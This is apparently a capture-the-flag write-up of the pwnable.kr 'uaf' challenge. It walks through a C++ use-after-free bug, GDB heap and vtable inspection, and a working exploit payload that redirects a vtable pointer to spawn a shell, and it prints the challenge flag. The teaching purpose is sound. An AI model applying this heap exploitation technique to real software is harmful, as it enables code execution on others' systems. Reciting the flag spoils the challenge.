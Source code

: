```yaml
---
title: "Pwnable.kr - uaf"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/uaf.png
ribbon: red
description: "If you don't know enough about these topics or need a refresher, see the references at the end.
This challenge is about exploiting `UAF` (use after free) vulnerability.
First it allocates 2 instances, one `Man` and one `Woman`, both classes..."
categories:
  - Binary Exploitation
---
```


> Challenge description:
>
> Mommy, what is Use After Free bug?



```c++
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>

using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}
```

# Prerequisites:

```
- Knowledge of how glibc heap works
- Knowledge of c++ inheritance and vtables
```

If you don't know enough about these topics or need a refresher, see the references at the end.

This challenge is about exploiting `UAF` (use after free) vulnerability.

First it allocates 2 instances, one `Man` and one `Woman`, both classes inherit from `Human` base class so they inherit all the methods (`give_shell()` and `introduce()`).

After that it goes into an infinite loop asking for input, we have 3 choices, the first and third are pretty obvious, what we are interested in is the second option.

The second option reads `argv[1]` bytes of data from the file at `argv[2]` then stores it in `data` variable. Note that `data` array is stored at the heap (using new keyword).

The bug here is that if we choose `3` to delete the allocated instances then choose `1`. we will get a segmentation fault as we are using freed memory, hence `use-after-free`.

I will work with the binary locally, get a working exploit then move to the remote binary, now let's jump into GDB:

[![1](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/1.png)](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/1.png)

We need to set a breakpoint after the call to `Man()` constructor and check the heap chunks.

[![2](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/2.png)](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/2.png)

We see the new heap chunk created at address `0x614ee0` with size `0x20 = 32`, the size passed to `new()` was `0x18` but the heap manager ensures  that the allocation will be 8-byte aligned on 32 bit systems, or 16-byte aligned on 64 bit systems, hence the size grows to `0x20`.

If we examine this chunk we see the address to **vtable** `0x0000000000401570` and after it we see the value of age `0x0000000000000019` and address of name at `0x0000000000614ec8`.

If we examine the **vtable** we see the addresses of the two virtual functions, `give_shell() at 0x000000000040117a` and `introduce() at 0x00000000004012d2`, so far so good.

Now let's delete the two instances using the third option `3` and check the chunk again:

[![3](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/3.png)](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/3.png)

As you can see, the **vtable** address was erased, but if we examine the **vtable** it self we see that it still contains the addresses to the two virtual functions.

If we check the free heap bins, we see the two freed chunks along with their sizes:

[![4](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/4.png)](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/4.png)

Now for the exploitation part, finally :)

As we know, the heap manager allocates new chunks from the previously freed chunks if they are same size. So we can use the second option `2` to allocate the `data` array with size of 0x18 (which will be a heap chunk of size 0x20 after the alignment), this array will overwrite Man and Woman chunks so when we use them again using option `1`, we can execute what we want.

Let's write some A's to a test file and see how it goes:

```
$ python -c "print 'A'*0x18" > test
```

[![5](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/5.png)](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/5.png)

Notice that we used the second option `2` twice, because the Woman free chunk was at the top of the freed chunks so it will be recycled first and we are targeting Man chunk, so we allocate 2 chunks.

[![6](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/6.png)](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/6.png)

As you can see, the two chunks were overwritten and the new **vtable** address is `0x4141414141414141`.

The way `m->introduce()` works is it first accesses the **vtable** address `0x0000000000401570`, it will find two function addresses (give_shell and introduce), so it will call (*vtable)+8.

So to call `give_shell()` instead of `introduce()`, we set the `vtable_address = vtable_address - 8` which ``0x0000000000401568` will be  and we are done.

# Solution:

```
uaf@pwnable:~$ python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00' + 'A'*16" > /tmp/heapooooooo
uaf@pwnable:~$ ./uaf 24 /tmp/heapooooooo
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ id
uid=1029(uaf) gid=1029(uaf) egid=1030(uaf_pwn) groups=1030(uaf_pwn),1029(uaf)
$ cat flag
yay_f1ag_aft3r_pwning
```

Flag: `yay_f1ag_aft3r_pwning`

# References:

[https://shaharmike.com/cpp/vtable-part1/https://shaharmike.com/cpp/vtable-part1/](https://shaharmike.com/cpp/vtable-part1/https://shaharmike.com/cpp/vtable-part1/)

[https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)

[https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/)

[https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/](https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/)
